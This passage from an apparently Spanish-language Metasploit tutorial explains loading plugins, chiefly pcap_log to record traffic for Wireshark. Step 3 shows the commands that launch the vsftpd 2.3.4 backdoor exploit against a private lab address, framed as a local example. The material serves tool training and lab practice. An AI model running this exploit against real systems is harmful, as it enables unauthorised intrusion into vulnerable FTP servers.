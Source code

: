 #### Paso 2: Cargar el plugin `pcap_log`

```bash
load pcap_log
```

Verás:

```
[*] Successfully loaded plugin: pcap_log
```

---

#### Paso 3: Seleccionar un exploit (ejemplo local)

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.1.5
set RPORT 21
run
```

---

#### Paso 4: Ver el tráfico capturado

El archivo estará en:

```bash
/tmp/msf3-pcap.log
```

Puedes analizarlo con Wireshark:

```bash
wireshark /tmp/msf3-pcap.log
```

---

### ✅ Resumen rápido

| Tarea                     | Comando                  |
| ------------------------- | ------------------------ |
| Cargar plugin             | `load nombre_del_plugin` |
| Ver funcionalidades extra | Depende del plugin       |
| Plugin para tráfico pcap  | `load pcap_log`          |
| Plugin para timestamps    | `load event_timestamps`  |
| Ver plugins en ruta       | `ls ~/.msf4/plugins`     |

---

[🔼](#índice)

---
